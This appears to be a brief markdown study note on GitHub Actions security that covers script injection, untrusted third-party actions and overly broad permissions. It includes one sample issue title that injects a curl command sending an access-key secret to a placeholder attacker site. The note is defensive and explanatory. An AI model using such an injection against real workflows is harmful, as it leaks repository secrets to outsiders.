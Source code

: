 ## Security Concerns in the Context of GitHub Actions

1. Script Injections - a value, set outside a workflow, is used in a workflow; example: issue title used in a workflow shell command; workflow / command behavior could be changed
2. Malicious third-party actions - actions can perform any logic, including potentially malicious logic; example: a third-party action that reads and exports your secrets; only use trusted actions and inspect code of unknown / untrusted authors
3. Permission issues - consider avoiding overly permissive permissions; example: only allow checking out code (“read-only”); github actions supports fine-grained permissions control

### Simple examples of injectin
Opening issues with titles like
- ``"a"; curl http://my-bad-site.com?abc=$MINHA_ACCESS_KEY_ID"``

### Docs
https://docs.github.com/en/actions/security-for-github-actions/security-hardening-your-deployments/about-security-hardening-with-openid-connect
https://docs.github.com/en/actions/security-for-github-actions/security-hardening-your-deployments/about-security-hardening-with-openid-connect